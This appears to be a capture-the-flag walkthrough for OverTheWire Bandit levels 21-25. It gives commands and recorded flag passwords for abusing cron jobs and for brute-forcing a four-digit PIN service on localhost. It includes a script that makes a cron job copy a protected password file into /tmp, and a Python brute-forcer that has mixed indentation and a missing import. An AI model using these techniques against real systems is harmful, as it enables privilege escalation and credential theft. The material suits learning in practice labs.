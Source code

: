 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## ![Bash script](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG





5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z  














